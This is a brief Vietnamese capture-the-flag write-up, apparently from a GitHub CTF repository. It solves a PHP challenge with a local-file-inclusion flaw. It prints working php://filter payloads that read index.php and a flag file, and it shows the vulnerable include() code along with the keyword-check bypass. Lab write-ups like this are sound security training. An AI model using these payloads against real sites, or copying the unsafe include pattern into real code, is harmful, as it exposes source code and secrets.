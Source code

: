 Mở đầu challenge, cho ta trang web có 2 link `woofers` và `meowers`.Mình thử nhấp vào 1 trong 2.Nhận thấy URL thay đổi `/index.php?category=woofers`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/760e8341-4d7e-44d6-9317-b5ea50c6556d)

Mình nghĩ bài này là RCE.Mình thử đọc file index bằng payload sau.

`php://filter/convert.base64-encode/resource=index`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4d638aa3-1a15-46d0-a7d0-e7365fb24352)

Kết quả trả về là 1 dãy base64.Sau khi decode.

```php
 <?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

Vậy thì input `Category` bắt buộc phải có `woofers`, `meowers` hoặc `index`.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/d21adce0-8f88-42e2-b70c-8ad2a00fe5b1)

Nhận thấy load thành công file flag.

`php://filter/convert.base64-encode/woofers/resource=flag`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/656aaf2f-0d12-4307-bf6e-2f4021260184)

Sau đó chỉ cần decode là xong.
